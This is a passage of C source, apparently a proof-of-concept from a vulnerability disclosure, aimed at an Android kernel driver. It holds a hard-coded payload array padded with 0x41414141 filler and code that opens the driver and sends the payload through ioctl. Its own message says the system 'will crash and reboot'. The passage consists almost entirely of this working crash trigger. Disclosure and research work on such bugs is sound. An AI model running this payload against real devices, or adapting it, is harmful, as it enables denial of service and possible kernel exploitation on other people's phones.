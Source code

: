 ```
    0x0080ffff,
    0x3600ff03,
    0x00000001,
    0x8fff7d7f,
    0x6b87075a,
    0x00000000,
    0x41414141,
    0x41414141,
    0x41414141,
    0x41414141,
    0x001001ff,
    0x00000000,
    0x00000001,
    0xff1f0512,
    0x00000001,
    0x51e32167,
    0xc18c55cc,
    0x00000000,
    0xffffffff,
    0xb4aaf12b,
    0x86edfdbd,
    0x00000010,
    0x0000003f,
    0xabff7b00,
    0xffff9ea3,
    0xb28e0040,
    0x000fffff,
    0x458603f4,
    0xffff007f,
    0xa9030f02,
    0x00000001,
    0x002cffff,
    0x9e00cdff,
    0x00000004,
    0x41414141,
    0x41414141,
    0x41414141,
    0x41414141 };

        int fd = 0;
        fd = open(driver, O_RDWR);
        if (fd < 0) {
            printf("Failed to open %s, with errno %d\n", driver, errno);
            system("echo 1 > /data/local/tmp/log");
            return -1;
        }
        
        printf("Try open %s with command 0x%x.\n", driver, command);
        printf("System will crash and reboot.\n");
        if(ioctl(fd, command, &payload) < 0) {
            printf("Allocation of structs failed, %d\n", errno);
            system("echo 2 > /data/local/tmp/log");
            return -1;
        }
        close(fd);
        return 0;
}


```
### References

